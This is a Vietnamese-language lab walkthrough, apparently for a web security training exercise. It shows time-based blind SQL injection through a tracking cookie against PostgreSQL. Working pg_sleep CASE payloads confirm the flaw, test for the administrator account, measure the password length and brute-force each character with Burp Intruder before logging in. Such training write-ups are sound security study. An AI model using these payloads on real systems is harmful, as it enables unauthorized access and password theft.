# 🔐 Lab 15: Blind SQL injection with time delays and information retrieval

<div align="center">


</div>

---

## 📋 Mô tả

> **⚠️ Lỗ hổng:** Blind SQL Injection với Time-based Technique

Lab này chứa lỗ hổng **Blind SQL injection**. Ứng dụng sử dụng tracking cookie để phân tích và thực hiện truy vấn SQL với giá trị cookie được gửi lên.

### 🔍 Đặc điểm của lỗ hổng:

- ❌ Kết quả của truy vấn SQL **không được trả về**
- ❌ Ứng dụng **không phản hồi khác nhau** dựa trên việc truy vấn có trả về hàng nào hay gây ra lỗi
- ✅ Truy vấn được thực thi **đồng bộ** → có thể kích hoạt **time delay có điều kiện** để suy luận thông tin

### 🗄️ Thông tin Database:

| Bảng | Cột | Mô tả |
|------|-----|-------|
| `users` | `username` | Tên đăng nhập |
| `users` | `password` | Mật khẩu |

### 🎯 Mục tiêu:

```
🔓 Khai thác lỗ hổng Blind SQL injection
📊 Trích xuất password của user 'administrator' 
🚪 Đăng nhập thành công với tài khoản administrator
```

---

## Cách thực hiện

### Bước 1: Kiểm tra lỗ hổng với Time Delay cơ bản

Truy cập trang web và sử dụng Burp Suite để chặn request chứa TrackingId cookie.



Thử nghiệm với payload kiểm tra điều kiện đúng (1=1):

```
TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```



Ứng dụng mất khoảng 10 giây để phản hồi, xác nhận lỗ hổng tồn tại.

### Bước 2: Kiểm tra điều kiện sai

Thay đổi payload để kiểm tra điều kiện sai (1=2):

```
TrackingId=x';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```



Ứng dụng phản hồi ngay lập tức, không có time delay.

### Bước 3: Xác nhận user 'administrator' tồn tại

Sử dụng payload để kiểm tra sự tồn tại của user administrator:

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```



Có time delay 10 giây, xác nhận user administrator tồn tại.

### Bước 4: Xác định độ dài password

Bắt đầu kiểm tra độ dài password với các giá trị tăng dần:

Thử với LENGTH(password)>1:
```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```



Tiếp tục thử với các giá trị lớn hơn (>2, >3, >4...) cho đến khi không còn time delay.

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```



Khi thử LENGTH(password)>20 không có delay nhưng LENGTH(password)>19 có delay, ta xác định password có độ dài 20 ký tự.

### Bước 5: Cấu hình Burp Intruder để brute-force password

Gửi request tới Burp Intruder (chuột phải → Send to Intruder).

Trong tab Positions, thiết lập payload:

```
TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```



### Bước 6: Cấu hình Payloads
Chọn **cluster bomb attack**
Trong tab Payloads:
1. Chọn Numbers: từ 1 - 20 , step: 1
2. Chọn burp forcer: từ a-z. 0-9




### Bước 8: Chạy attack

Click "Start attack" để bắt đầu.



Quan sát cột "Response received" hoặc "Response completed" để tìm request có thời gian phản hồi khoảng 10000ms.

### Bước 9: Đăng nhập với tài khoản administrator

Sau khi thu thập đủ 20 ký tự, ghép chúng lại thành password hoàn chỉnh.

Click "My account" để mở trang đăng nhập.

Nhập:
- Username: `administrator`
- Password: [password_vừa_tìm_được]



